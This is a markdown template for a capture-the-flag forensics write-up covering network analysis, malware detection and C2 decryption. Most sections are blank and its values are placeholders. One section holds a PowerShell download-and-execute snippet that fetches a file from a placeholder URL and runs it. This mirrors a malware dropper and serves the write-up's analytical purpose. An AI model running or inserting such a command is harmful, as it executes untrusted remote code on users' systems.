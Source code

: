 # 🕵️‍♂️ <CTF_NAME> - <CHALLENGE_NAME>

---

## 📘 Challenge Overview

---

## 🔍 Initial Network Analysis

---

## 📦 Suspicious File Transfers

```powershell
$URL = "<URL>";
$Download_PATH = "<Download_Path>";
Invoke-WebRequest -Uri $URL -OutFile $Download_PATH;
$downloader = New-Object System.Net.WebClient;
$downloader.DownloadFile($URL, $Download_PATH);
Start-Process -Filepath $Download_PATH
```


---

## 🔥 Malware Detection

---

## 🧠 Research & C2 Decryption

```bash
[+] Key: <AES_KEY>
[+] IV: <AES_IV>
```

---

## 🛠️ Automation via Bash Script


---

## ✅ Outcome

---

## 🧰 Tools Used

---

## 📂 Artifacts

---

## ✍️ Notes

---

> 🏁 *Flag successfully retrieved: `<flag>`*